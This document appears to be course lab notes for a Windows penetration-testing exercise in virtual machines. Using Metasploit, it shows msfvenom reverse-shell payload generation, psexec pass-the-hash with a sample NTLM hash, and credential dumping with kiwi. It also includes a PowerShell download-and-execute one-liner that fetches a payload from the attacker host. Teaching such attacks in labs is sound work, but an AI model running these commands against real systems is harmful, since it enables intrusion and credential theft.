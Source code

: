 1. Download M1 from Google Drive

2. Start:
-Kali2<BR>
-2k8dc_a2<BR>
-2k8m2_a1<BR>


3. On the Kali2 host, set a static IP 192.168.168.110<BR>
ifconfig eth0 192.168.168.110<BR>
ifconfig eth0 netmask 255.255.255.0<BR><BR>

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as<BR> aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):<BR>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe<BR>
#Then don’t forget to start a listener and restart apache<BR>

6. Copy password and hash to a text file on the Kali box for reference.<BR>
7. Stop the VM 2k8m2_a1<BR>
8. Start the VM 2k8m1<BR>
9. Determine M1’s IP<BR>
10. Perform information gathering and enumeration against M1 with nmap<BR>
11. We know the password for M2's local Administrator, let's try it against M1.<BR>
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.<BR>
13. Within msfconsole:<BR>
use exploit/windows/smb/psexec<BR>
set rhost 192.168.168.101<BR>
set SMBUser Administrator<BR>
set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>
show options<BR>
set payload windows/meterpreter/reverse_tcp<BR>
set lhost 192.168.168.110<BR>
set lport 7479<BR>
exploit<BR>
14. meterpreter > hashdump<BR>
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.<BR>
meterpreter > sysinfo<BR>
Computer        : M1<BR>
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).<BR>
Architecture    : x64 (Current Process is WOW64)<BR>
meterpreter > background<BR>

15. Move to a 64bit Meterpreter session:<BR>
msfconsole> use windows/local/payload_inject <BR>
set payload windows/x64/meterpreter/reverse_tcp <BR>
set session x<BR>
set lhost 192.168.168.110<BR>
exploit<BR>
meterpreter> sysinfo<BR>

16. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!<BR>
meterpreter> load kiwi<BR>
meterpreter> help<BR>
meterpreter> creds_all<BR>
Now that you have the creds, how did you get them? From what insecure package?<BR>
  
17. Via RDP, connect to the DC with the new creds for Alice.<BR>
18. How can we get a payload on the box if Enhanced IE security is enabled? Hint: Zones or PowerShell<BR>

  PowerShell (New-Object System.Net.WebClient).DownloadFile('http://192.168.168.110/yourpayload.exe','yourpayload.exe');Start-Process 'yourpayload.exe'

19. How did you find missing patches before?<BR>

20. https://pentestlab.blog/tag/sysret
  
  
